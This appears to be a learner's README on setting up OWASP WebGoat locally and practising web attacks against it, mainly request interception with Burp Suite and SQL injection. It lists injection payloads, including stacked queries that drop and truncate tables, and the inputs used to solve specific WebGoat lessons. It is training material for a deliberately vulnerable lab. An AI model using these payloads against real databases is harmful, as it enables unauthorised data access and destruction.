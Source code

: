 # web goat
owasp demo site

# installation

* download from git:
```
https://github.com/WebGoat/WebGoat
git clone git@github.com:WebGoat/WebGoat.git
```

* install maven in kali linux
```
https://tutorialforlinux.com/2017/04/13/how-to-install-latest-apache-maven-on-kali-linux-easy-guide/
```
* install by using mvn
```
source $HOME/.bashrc
mvn clean install

Now let's start by compiling the project.

cd WebGoat
git checkout develop
mvn clean install
Now we are ready to run the project. WebGoat 8.x is using Spring-Boot.

mvn -pl webwolf spring-boot:run
```

* run stand-alone :

```
download
https://github.com/WebGoat/WebGoat/releases
then
java -jar webgoatxxx.jar
then:
http://localhost:8080/WebGoat/login

```

# attack techniques:

I will try to practice test first then categorize them later

## General

* http/s basics: learn to intercept request by using zap/burpsuite

```
Go General/HTTP basics
Use burp suite to capture get/post method then edit and forward

result:
POST /WebGoat/HttpBasics/attack2 HTTP/1.1
magic_num=36&answer=&magic_answer=36

read the magic_numb then edit it

Identify type of request: post/get
```

* http proxies: learn how to deploy proxy on zap/burpsuite

## injection flow

  1. sql injection
  * data manipulation language (select, insert, update)
  * data definition language (create, alter, drop)
  * data control language (grant, revoke)

* numeric injection

* combining sql injection techniques
  ```
  special characters
   - /*
    '*/:comment the remainder of the query
   - ; allow query chaining  ex: 'select * from users; drop table users;'
   - || allow string concatenate
   - union : 'Select id, text from news union all select name, pass from users'
   - joins
  ```
* blind sql injection
```
```

  2. examples:
```
- simple sql injection:
serName = Smith' or '1'='1
userName =' or 1=1 --
userID = 1234567 or 1=1
UserName = Smithâ€™;drop table users; truncate audit_log;--

- advance sql injection:
Smith'; select * from user_system_data where '1'='1

-blind sql injection:
https://my-shop.com?article=4
>> SELECT * from articles where article_id = 4

```

  3. practices:
  * simple sql injection
```
http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/6
input: Smith' or '1'='1
then submit

http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/7
input : 123456 or 1=1
then submit

```
  * advance sql injection
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/2
  6.a input: Smith'; select * from user_system_data where '1'='1
  105, dave, dave, ,
  6.b input: dave
  ```

  * combine all: burpsuite: could user repeater module to input data to save time to make request
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/4
  tried : http://sechow.com/bricks/docs/login-1.html but failed

  ```
